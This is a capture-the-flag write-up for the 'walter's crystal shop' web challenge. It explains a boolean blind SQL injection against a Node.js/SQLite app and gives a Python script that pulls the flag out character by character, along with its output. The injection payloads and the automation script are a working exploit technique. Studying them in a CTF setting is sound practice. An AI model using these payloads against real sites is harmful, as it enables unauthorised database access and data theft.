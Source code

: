<h1> walter's crystal shop </h1>


<p> This web challenge is a Nodejs web application that is vulnerable to blind SQL injection in SQLite.
 We can retrieve the flag with a boolean blind sql, and automate the process in python with the reqests library. </p>

```python
import requests


char = [chr(l) for l in range(65,91)] + [chr(l) for l in range(97,123)] + [str(l) for l in range(0,9)] + ["{", "}", "_", "@", "#", "$", "%",]

url = "https://walters-crystal-shop.chal.nbctf.com/crystals?name=Amethyst"
s = requests.Session()


def get_length(s, url) -> int:
    for n in range(100):
        payload = f"'and (SELECT length(flag) FROM flag) = {n}--"
        urlVuln = url + payload

        page = s.get(urlVuln).text

        if page.find('Amethyst') != -1:
            print('Length : ', n)
            return n

def get_flag(s, url, char, length) -> str:
    flag = ""
    for n in range(length + 1):
        for c in char:
            payload = f"'and (SELECT hex(substr(flag,{n},1)) FROM flag) = hex('{c}')--'"
            urlVuln = url + payload

            page = s.get(urlVuln).text

            if page.find('Amethyst') != -1:
                flag += c
                print(flag)
                break
    return flag


length = get_length(s, url)
flag = get_flag(s, url, char, length)
print(flag)
```

<p> And we get the flag ! </p>

```
Length : 61
nb
nbc
nbct
nbctf
nbctf{
nbctf{h
nbctf{h0
nbctf{h0p

...

nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```
